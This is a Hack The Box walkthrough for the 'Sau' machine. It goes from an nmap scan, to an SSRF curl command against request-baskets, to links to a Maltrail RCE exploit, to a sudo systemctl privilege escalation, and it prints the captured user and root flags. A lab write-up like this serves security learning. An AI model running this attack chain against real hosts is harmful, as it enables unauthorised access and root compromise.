 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit, SSRF]
image:
  path: /Vulnhub-Files/img/Sau/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/551
---
```



![Untitled](/Vulnhub-Files/img/Sau/Untitled.png)

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ sudo nmap -sC -sV -T4 10.10.11.224 -oN Nmap_results.txt
[sudo] password for kali: 
Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-29 12:45 IST
Nmap scan report for 10.10.11.224
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 29 Aug 2023 07:17:19 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 29 Aug 2023 07:16:43 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 29 Aug 2023 07:16:45 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data.
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Sau/Untitled%201.png)

After clicking on create button →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%202.png)

```bash
Basket 'nxhtzfm' is successfully created!

Your token is: 8fREKdr_kiHy5fuFJce3w5JPrnQ5zlnnhzTVJ4CUo62O
```

I got a dashboard which keeps log of the URL activity →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%203.png)

Through web recon I got to know about the vulberability that this site is affected to so I got this →

[Exploit](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3/)

Now I set the options and all the Settings options through curl with the new directory named as `shell` →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Sau]
└─$ curl --location 'http:/10.10.11.224:55555/api/baskets/shell' --header 'Content-Type: application/json' --data '{"forward_url": "http:/127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
{"token":"ZLVtatdn0yuct7Sy8iOpI9t0VryjYQL68vTkd-TX8HMT"}
```

I accessed the `http:/10.10.11.224:55555/api/baskets/shell`  page I got this 

![Untitled](/Vulnhub-Files/img/Sau/Untitled%204.png)

I also tried to set these below options on curl →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%205.png)

Now Lets access the url directly `http:/10.10.11.224:55555/shell`and I got this →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%206.png)

Now with some web recon I find out that this `Mailtrail (v0.53)` is vulnerable and can give me RCE so I used this exploit →

[Exploit](https://www.exploit-db.com/exploits/51676/)

![Untitled](/Vulnhub-Files/img/Sau/Untitled%207.png)

I got the shell now its time for dig in into the shell for root access →

```bash
puma@sau:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 puma puma 4096 Aug 29 05:24 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
-rw------- 1 puma puma  556 Aug 29 05:24 .viminfo
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 29 04:08 user.txt
puma@sau:~$ cat user.txt
cat user.txt
9d18067025cba80f61b19105560f6662
puma@sau:~$ 
```

Now lets see how this user can get me to root →

```bash
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:~$
```

Now from gtfobin site I got the payload that gona get me root →

![Untitled](/Vulnhub-Files/img/Sau/Untitled%208.png)

Now  I used it and got this →

```bash
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
```

![Untitled](/Vulnhub-Files/img/Sau/Untitled%209.png)

```bash
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Aug 29 09:58 .
drwxr-xr-x 20 root root 4096 Jun 19 09:41 ..
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Jun 19 09:41 .cache
-rw-------  1 root root   31 Aug 29 09:58 .lesshst
drwxr-xr-x  3 root root 4096 Jun  8 11:03 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Apr 14 17:38 .ssh
-rw-r--r--  1 root root   39 Jun  8 11:05 .vimrc
lrwxrwxrwx  1 root root    9 Apr 15 09:35 .wget-hsts -> /dev/null
drwxr-xr-x  4 root root 4096 Jun 19 09:41 go
-rw-r-----  1 root root   33 Aug 29 04:08 root.txt
#
# cat root.txt
2754674b979d814022ef84fa0cdd965b
#
```